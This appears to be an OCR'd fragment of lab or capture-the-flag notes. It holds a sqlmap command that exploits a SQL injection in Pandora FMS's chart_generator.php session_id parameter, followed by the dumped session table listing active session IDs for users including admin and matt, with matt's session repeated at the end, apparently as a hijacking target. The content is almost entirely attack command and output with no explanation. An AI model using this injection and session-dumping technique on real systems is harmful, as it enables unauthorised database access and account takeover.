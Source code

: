 ```sh
+------------------------------------+
```
```sh
sqlmap "http://localhost:2500/pandora_console/include/chart_generator.php?session_id=''"  -D pandora -T tsessions_php --dump

+----------------------------+------------------------------------------------------+-------------+
| id_session                 | data                                                 | last_active |
+----------------------------+------------------------------------------------------+-------------+
| 07ou61d2jsi3087a9jg12s3m1k | NULL                                                 | 1644502695  |
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                             | 1638783555  |
| 0ahul7feb1l9db7ffp8d25sjba | NULL                                                 | 1638789018  |
| 1t2n71opaqeoausmhaqk277c21 | id_usuario|s:6:"daniel";                             | 1644502477  |
| 1um23if7s531kqf5da14kf5lvm | NULL                                                 | 1638792211  |
| 2e25c62vc3odbppmg6pjbf9bum | NULL                                                 | 1638786129  |
| 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                             | 1638540332  |
| 3fq6hl9r8kbadgq6r5bfjmojm5 | NULL                                                 | 1644502325  |
| 3me2jjab4atfa5f8106iklh4fc | NULL                                                 | 1638795380  |
| 4f51mju7kcuonuqor3876n8o02 | NULL                                                 | 1638786842  |
| 4nsbidcmgfoh1gilpv8p5hpi2s | id_usuario|s:6:"daniel";                             | 1638535373  |
| 59qae699l0971h13qmbpqahlls | NULL                                                 | 1638787305  |
| 5fihkihbip2jioll1a8mcsmp6j | NULL                                                 | 1638792685  |
| 5i352tsdh7vlohth30ve4o0air | id_usuario|s:6:"daniel";                             | 1638281946  |
| 69gbnjrc2q42e8aqahb1l2s68n | id_usuario|s:6:"daniel";                             | 1641195617  |
| 81f3uet7p3esgiq02d4cjj48rc | NULL                                                 | 1623957150  |
| 8m2e6h8gmphj79r9pq497vpdre | id_usuario|s:6:"daniel";                             | 1638446321  |
| 8uiokruc91od5tphgekpsau4lp | alert_msg|a:0:{}new_chat|b:0;                        | 1644502812  |
| 8upeameujo9nhki3ps0fu32cgd | NULL                                                 | 1638787267  |
| 9vv4godmdam3vsq8pu78b52em9 | id_usuario|s:6:"daniel";                             | 1638881787  |
| a3a49kc938u7od6e6mlip1ej80 | NULL                                                 | 1638795315  |
| agfdiriggbt86ep71uvm1jbo3f | id_usuario|s:6:"daniel";                             | 1638881664  |
| cojb6rgubs18ipb35b3f6hf0vp | NULL                                                 | 1638787213  |
| d0carbrks2lvmb90ergj7jv6po | NULL                                                 | 1638786277  |
| d0h8gpqrh99ur3pfcb53vqak5e | NULL                                                 | 1644513572  |
| elks2rkjdnk8f001jqbkinael0 | NULL                                                 | 1644513405  |
| eqsc2gjr37g0ug1q4qdk3rabh4 | id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0; | 1644502437  |
| f0qisbrojp785v1dmm8cu1vkaj | id_usuario|s:6:"daniel";                             | 1641200284  |
| fikt9p6i78no7aofn74rr71m85 | NULL                                                 | 1638786504  |
| fqd96rcv4ecuqs409n5qsleufi | NULL                                                 | 1638786762  |
| g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                             | 1638783230  |
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0;  | 1644512890  |
| gf40pukfdinc63nm5lkroidde6 | NULL                                                 | 1638786349  |
| h1ge39342hcid93s3ghk0nhl3c | NULL                                                 | 1644502501  |
| heasjj8c48ikjlvsf1uhonfesv | NULL                                                 | 1638540345  |
| hif1pavjlks18e7oqgu8bmvhis | NULL                                                 | 1644513371  |
| hsftvg6j5m3vcmut6ln6ig8b0f | id_usuario|s:6:"daniel";                             | 1638168492  |
| j85l7a3q010b3ul6sv2eh6amo6 | NULL                                                 | 1644502455  |
| jecd4v8f6mlcgn4634ndfl74rd | id_usuario|s:6:"daniel";                             | 1638456173  |
| kp90bu1mlclbaenaljem590ik3 | NULL                                                 | 1638787808  |
| ne9rt4pkqqd0aqcrr4dacbmaq3 | NULL                                                 | 1638796348  |
| o3kuq4m5t5mqv01iur63e1di58 | id_usuario|s:6:"daniel";                             | 1638540482  |
| oi2r6rjq9v99qt8q9heu3nulon | id_usuario|s:6:"daniel";                             | 1637667827  |
| pjp312be5p56vke9dnbqmnqeot | id_usuario|s:6:"daniel";                             | 1638168416  |
| qq8gqbdkn8fks0dv1l9qk6j3q8 | NULL                                                 | 1638787723  |
| r097jr6k9s7k166vkvaj17na1u | NULL                                                 | 1638787677  |
| rgku3s5dj4mbr85tiefv53tdoa | id_usuario|s:6:"daniel";                             | 1638889082  |
| u5ktk2bt6ghb7s51lka5qou4r4 | id_usuario|s:6:"daniel";                             | 1638547193  |
| u74bvn6gop4rl21ds325q80j0e | id_usuario|s:6:"daniel";                             | 1638793297  |
| vntmpokca9aee53q48op3mesqs | id_usuario|s:6:"daniel";                             | 1644502107  |
+----------------------------+------------------------------------------------------+-------------+
```
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; 
